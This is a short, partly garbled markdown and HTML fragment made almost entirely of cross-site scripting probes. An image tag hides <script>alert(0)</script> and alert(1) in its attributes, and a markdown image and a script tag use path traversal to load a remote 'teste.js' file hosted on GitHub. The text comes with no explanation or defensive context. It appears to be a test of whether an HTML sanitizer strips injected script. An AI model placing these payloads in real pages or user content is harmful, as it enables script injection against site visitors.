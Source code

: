![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<img src="?w=<script>alert(0);</script>" value="<script src='../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js'>;" width="alert(1)">
